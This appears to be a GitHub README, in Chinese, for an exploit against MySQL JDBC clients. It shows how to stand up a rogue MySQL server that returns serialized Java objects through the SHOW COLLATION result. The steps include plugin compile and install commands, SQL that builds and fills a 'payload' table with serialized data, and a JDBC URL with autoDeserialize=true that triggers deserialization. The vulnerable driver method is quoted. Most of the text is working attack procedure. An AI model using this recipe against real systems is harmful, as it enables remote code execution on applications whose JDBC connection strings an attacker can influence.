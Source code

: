 # MySQL JDBC Deserialization Payload / MySQL客户端jdbc反序列化漏洞

# 描述
当MySQL JDBC url可控时，除了能利用MySQL协议读取MySQL Client的本地文件之外，还可以利用客户端在连接服务器时会反序列化服务器返回的二进制数据，从而触发反序列化漏洞。

# 详情

## 1. 安装rewrite插件
以下安装方式任选其一
### 【任选】编译插件
下载mysql-5.7.28源码到/root/mysql-5.7.28，https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz
rewrite_example.cc见仓库
```shell
   gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices
```
### 【任选】直接使用本git仓库中的rewrite_example.so

复制rewrite_example.so到/usr/lib/mysql/plugin/rewrite_example.so即可。

> rewrite_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

## 2. 安装插件，建表，插入二进制数据
安装插件
```sql
INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';
```
建表
1. 创建数据库：codeplutos，请自行创建
2. 建表sql如下
```sql
SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for payload
-- ----------------------------
DROP TABLE IF EXISTS `payload`;
CREATE TABLE `payload` (
  `COLLATION_NAME` varchar(255) DEFAULT NULL,
  `CHARACTER_SET_NAME` blob,
  `ID` int(5) DEFAULT NULL,
  `IS_DEFAULT` varchar(255) DEFAULT NULL,
  `IS_COMPILED` varchar(255) DEFAULT NULL,
  `SORTLEN` int(5) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of payload
-- ----------------------------
BEGIN;
INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```
插入payload
```sql
set @a=0xaced00057372002;
update codeplutos.payload set character_set_name = @a;
```

## 3. 指定jdbc url，连接
```
jdbc:mysql://server:port/codeplutos?detectCustomCollations=true&autoDeserialize=true
```

# 漏洞触发点：
com.mysql.jdbc.ConnectionImpl#buildCollationMapping
```java
private void buildCollationMapping() throws SQLException {
    //......省略
    try {
        results = stmt.executeQuery("SHOW COLLATION");
        if (versionMeetsMinimum(5, 0, 0)) {
            Util.resultSetToMap(sortedCollationMap, results, 3, 2);
        } else {
            while (results.next()) {
                sortedCollationMap.put(results.getLong(3), results.getString(2));
            }
        }
    } catch (SQLException ex) {
        if (ex.getErrorCode() != MysqlErrorNumbers.ER_MUST_CHANGE_PASSWORD || getDisconnectOnExpiredPasswords()) {
            throw ex;
        }
    }
    //......省略
}
```
# Reference
https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

